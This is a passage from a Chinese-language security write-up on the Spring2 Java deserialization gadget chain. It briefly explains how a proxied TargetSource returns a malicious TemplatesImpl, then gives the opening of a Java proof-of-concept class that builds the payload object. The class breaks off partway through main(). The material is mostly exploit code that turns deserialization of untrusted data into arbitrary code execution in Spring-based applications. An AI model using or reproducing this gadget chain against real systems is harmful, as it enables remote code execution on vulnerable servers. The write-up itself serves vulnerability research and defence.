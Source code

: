 如果我们将我们的`targetSource`设置为我们的Ann代理类,然后调用`getTarget`的时候返回一个恶意`TemplatesImpl`类,接着调用`newTransformer`方法。

## Poc

入口还是`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider`,我的上面的那个代理类虽然Target可控,但是method还是需要该类中的`ReflectionUtils.invokeMethod`来触发的。

![image-20211120161253518](img/image-20211120161253518.png)

```java
import Tools.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.springframework.aop.framework.AdvisedSupport;

import javax.xml.transform.Templates;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;


/**
 * SerializableTypeWrapper$MethodInvokeTypeProvider.readObject()
 *     SerializableTypeWrapper.TypeProvider(Proxy).getType()
 * 	    AnnotationInvocationHandler.invoke()
 * 		    ReflectionUtils.invokeMethod()
 * 			    Templates(Proxy).newTransformer()
 * 				    JdkDynamicAopProxy.invoke()
 *                         AopUtils.invokeJoinpointUsingReflection()
 * 						    TemplatesImpl.newTransformer()
 */
public class Spring2 {

    public static String fileName = "Spring2.bin";

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        TemplatesImpl tmpl = SerializeUtil.generateTemplatesImpl();

        // 实例化 AdvisedSupport
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(tmpl);

        // 使用 AnnotationInvocationHandler 动态代理
        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        // JdkDynamicAopProxy 的 invoke 方法触发 TargetSource 的 getTarget 返回 tmpl
        // 并且会调用 method.invoke(返回值,args)
```